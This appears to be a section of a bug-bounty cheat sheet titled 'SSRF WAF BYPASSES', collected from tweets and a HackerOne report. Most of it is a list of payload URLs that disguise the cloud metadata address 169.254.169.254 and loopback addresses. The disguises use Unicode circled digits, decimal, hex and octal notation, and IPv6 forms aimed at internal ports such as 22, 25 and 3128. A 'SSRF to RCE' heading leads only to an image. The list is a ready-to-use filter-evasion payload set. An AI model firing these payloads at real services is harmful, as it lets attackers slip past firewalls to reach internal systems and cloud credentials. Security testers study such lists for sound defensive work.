 ## SSRF WAF BYPASSES 
*[tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)*

![SSRF](Images/ssrf.png)

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```
------------------------------------------------------------------------------------
*[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)*
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```

*[Report #736867](https://hackerone.com/reports/736867) by [foobar7](https://twitter.com/foobar0x7)*  
```
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
```
---------------------------------------------------------------------------------------
## SSRF to RCE

*[tweet](https://twitter.com/intigriti/status/1248222721399500801?s=20) By [Intigriti](https://twitter.com/intigriti/),*
*Tip by Shoeb Patel([0xCaptainFreak](https://twitter.com/0xCaptainFreak))*

<img src="Images/intigriti_ssrf.png" width="500">


